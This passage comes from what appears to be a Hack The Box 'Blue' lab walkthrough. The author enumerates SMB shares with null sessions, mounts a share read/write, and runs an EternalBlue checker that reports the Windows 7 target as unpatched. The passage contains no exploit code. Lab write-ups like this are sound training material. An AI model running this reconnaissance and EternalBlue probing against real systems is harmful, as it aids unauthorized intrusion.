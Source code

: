 Ok so we have read access on Share and Users. Lets see what we can do with SMBClient:

```
kali@kali:~/htb/Blue$ smbclient //10.129.87.153/Users -N
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Fri Jul 21 02:56:23 2017
  ..                                 DR        0  Fri Jul 21 02:56:23 2017
  Default                           DHR        0  Tue Jul 14 03:07:31 2009
  desktop.ini                       AHS      174  Tue Jul 14 00:54:24 2009
  Public                             DR        0  Tue Apr 12 03:51:29 2011

                8362495 blocks of size 4096. 4259492 blocks available
smb: \> 
```

The -N here just means no password.

Great, now we know we have some access. I’m going to mount this smbshare:

```
kali@kali:~/htb/Blue$ sudo mkdir /mnt/smbmount
kali@kali:~/htb/Blue$ sudo mount -t cifs //10.129.87.153/Users /mnt/smbmount -o username=null,password=null,domain=WORKGROUP,rw
kali@kali:~/htb/Blue$ cd /mnt/smbmount
kali@kali:/mnt/smbmount$ ls
Default  desktop.ini  Public
```

-t cifs means to mount the type Common Internet File System. 

-o means options

The rw at the end just means read/write permissions.

I can’t really find anything good here. So I’m going to see if I can use EternalBlue.

Checking the Eternalblue readme we can find some good information:

`* **eternalblue_exploit7.py** Eternalblue exploit for windows 7/2008` 

I also run the checker:

```
kali@kali:~/htb/Blue$ python checker.py 10.129.87.153
Target OS: Windows 7 Professional 7601 Service Pack 1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_ACCESS_DENIED
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: STATUS_ACCESS_DENIED
kali@kali:~/htb/Blue$ 
```

So the target is not patched, but we don’t have any pipes to use zzz_exploit.
